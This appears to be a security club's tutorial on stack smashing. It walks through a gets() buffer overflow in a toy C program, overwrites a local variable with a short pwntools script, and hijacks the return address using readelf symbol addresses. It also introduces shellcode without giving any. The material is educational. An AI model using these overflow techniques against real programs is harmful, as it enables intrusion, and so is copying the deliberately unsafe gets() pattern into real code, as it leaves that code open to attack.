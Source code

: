 # Stack Smashing
Today we'll be exploring stack smashing, one of the oldest and most fundamental
techniques of exploitation.

## Unsafe Writes
The premise of this bug is simple: When data is written to memory in C, there
is no concept of a "buffer", let alone the size of a buffer. This means that if
a function is instructed to write past the end of a buffer, it will happily do
so, overwriting any other data that happens to be sitting in the way. For
example, consider the manpage entry for `gets()`:

```
SYNOPSIS
       #include <stdio.h>

       char *gets(char *s);

DESCRIPTION
       Never use this function.

       gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

From the first sentence of the description, the manpage makes it blatantly
obvious how unsafe the function is, for the same reason described above. There
is no check for a buffer overrun. Consider the snippet of code below:

```C
#include <stdio.h>

int main(void) {
    int num = 1443;
    char buf[50];

    gets(buf);

    printf("%d\n", num);

    return 0;
}
```

Below is a diagram of the stack just before the call to `gets()`.

![Stack before gets()](./stack_smashing_example1.png)

If we were to enter a string of length 49 or less (remember the terminating
null byte), we would expect this program to print 1443. But what if we were to
enter 50 or more characters? Since `gets()` doesn't do any bounds checking, we
expect `num` to be overwritten. Lets see this happen in practice. Compile the
program above with `gcc -fno-stack-protector prog.c` and run `python -c 'print
"A"*49' | ./a.out`:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*49' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*50' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Well, so much for that. Though it may seem like the input was unsuccessful, the
truth is that the size of the buffer is being padded to a multiple of 8 bytes
(a machine word) for better performance. So the "real" size of the buffer is
56 bytes, not 50. Knowing this, lets try again:

```
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*55' | ./a.out
1443
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$ python -c 'print "A"*56' | ./a.out
1280
devneal@nealscape:~/techsec/meeting_notes/04-03-17_stack_smashing$
```

Just as expected, `num` is being overwritten. Below is a diagram of the stack
after the call to `gets()`:

![Stack after gets()](./stack_smashing_example2.png)

Since `num` is stored in little-endian byte order, the least significant bit is
overwritten first, changing the value from `0x00000005A3` to `0x0000000500`.
You can verify in python that these are equal to 1443 and 1280, respectively.
Additionally, you can simply write a ton of 'A' characters to overwrite the
return address, causing the program to crash.

## Targeted writes
Since we can overwrite `num` with arbitrary bytes, we can effectively change it
to be any value we want. The classical way to do this is to use python's
`struct` module. However, we have better tools available to us now. This is how
to write arbitrary bytes in 2017:

```python
#!/usr/bin/python
from pwn import *

your_val_here = 12345
p = process('./a.out')
p.sendline('A' * 56 + p64(your_val_here))
print p.readline()
```
If you want to write negative arguments, you'll have to use something like
`p64(-1, sign="signed", endinanness="little")`.

## Control hijacking
Overwriting variables is fun, but overwriting the return address is of
particular interest, since doing so allows us to control which function is
called next. In the program above, if we substitute `p.sendline('A' * 56 +
p64(your_val_here))` with `p.sendline('A' * 72 + p64(your_address_here))`, the
program will start executing instructions at `your_address_here` after
returning from `main()`. We need only supply the location in memory of the
desired function.

### Symbols
When a program is compiled, the locations of global variables and functions are
named (unless you tell the compiler not to do this). These names are called
*symbols*, and we can view them with a tool called `readelf`. Run `readelf
--symbols a.out | less` to view the symbols of `a.out`. My output from
`readelf --symbols a.out` is below:

```
[truncated]
59: 0000000000601030     0 NOTYPE  GLOBAL DEFAULT   25 __data_start
60: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
61: 0000000000601038     0 OBJECT  GLOBAL HIDDEN    25 __dso_handle
62: 0000000000400620     4 OBJECT  GLOBAL DEFAULT   16 _IO_stdin_used
63: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND gets@@GLIBC_2.2.5
64: 00000000004005a0   101 FUNC    GLOBAL DEFAULT   14 __libc_csu_init
65: 0000000000601048     0 NOTYPE  GLOBAL DEFAULT   26 _end
66: 0000000000400470    42 FUNC    GLOBAL DEFAULT   14 _start
67: 0000000000601040     0 NOTYPE  GLOBAL DEFAULT   26 __bss_start
68: 0000000000400566    57 FUNC    GLOBAL DEFAULT   14 main
69: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _Jv_RegisterClasses
70: 0000000000601040     0 OBJECT  GLOBAL HIDDEN    25 __TMC_END__
71: 0000000000000000     0 NOTYPE  WEAK   DEFAULT  UND _ITM_registerTMCloneTable
72: 0000000000400400     0 FUNC    GLOBAL DEFAULT   11 _init
```
From this output, we can see that `main()` is located at `0x400566`. If there
were other functions in the program (line in challenge 3), they would be
included here too, and you could read off their memory locations.

# Shellcode
Shellcoding is the oldest trick in the binary exploitation book. It's
essentially a clever way to handle the fact that overwriting the return
address only allows us to execute functions that are already in the program.
The trick is to write our own instructions to memory *in addition to* the
address to jump to. The attack is best summarized with a diagram. We craft our
input such that the resulting stack has the following form:

![Shellcode Input](./shellcode_diagram.png)

If we overwrite the start of `buf` with our shellcode and the return address
with the address of `buf`, then when the program will begin executing the
shellcode when the function returns. And since the purpose of shellcode is to
spawn a shell, we can then run arbitrary commands on the machine that was
exploited, a disastrous result for a bug as innocent as an incorrect write.

